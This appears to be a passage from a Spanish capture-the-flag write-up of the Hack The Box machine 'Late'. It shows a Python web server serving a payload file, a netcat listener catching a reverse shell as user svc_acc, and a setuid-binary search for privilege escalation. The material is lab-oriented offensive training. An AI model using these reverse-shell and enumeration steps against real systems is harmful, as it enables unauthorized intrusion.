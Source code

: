 Ahora creamos nuestra imagen con el código:

![](/assets/images/htb-late/late12.png)

Nos ponemos en escucha por el puerto 443 y compartimos un servidor web con python:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.156 - - [23/Jul/2023 22:40:53] "GET /r HTTP/1.1" 200 -
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.156] 44366
bash: cannot set terminal process group (1231): Inappropriate ioctl for device
bash: no job control in this shell
svc_acc@late:~/app$ whoami
whoami
svc_acc
svc_acc@late:~/app$
```

Ya nos encontramos dentro de la máquina como el usuario `svc_acc` y podemos visualizar la primer flag (user.txt). Para trabajar más cómodos, hacemos un [Tratamiento de la tty](/posts/tratamiento-tty) y procedemos a enumerar un poco el sistema para escalar privilegios:

```bash
svc_acc@late:~$ id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
svc_acc@late:~$ sudo -l
[sudo] password for svc_acc: 
svc_acc@late:~$ find / \-perm /4000 2>/dev/null
/usr/sbin/pppd
/usr/sbin/sensible-mda
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/arping
/usr/bin/procmail
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/fusermount
/bin/mount
/bin/su
/bin/ping
/bin/umount
svc_acc@late:~$ 
```
